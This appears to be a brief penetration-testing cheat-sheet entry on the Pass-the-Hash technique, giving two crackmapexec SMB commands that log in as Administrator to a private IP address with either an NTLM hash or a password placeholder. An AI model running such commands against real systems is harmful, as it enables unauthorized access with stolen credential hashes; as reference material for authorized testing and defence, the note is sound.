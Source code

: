 # Pass the Hash

allows u to persist into an exploited service/system using the LM & NTLM Hash of a user.

crackmapexec smb 10.2.28.132 -u Administrator -H "<NTLM_Hash>"

crackmapexec smb 10.2.28.132 -u Administrator -p <password>


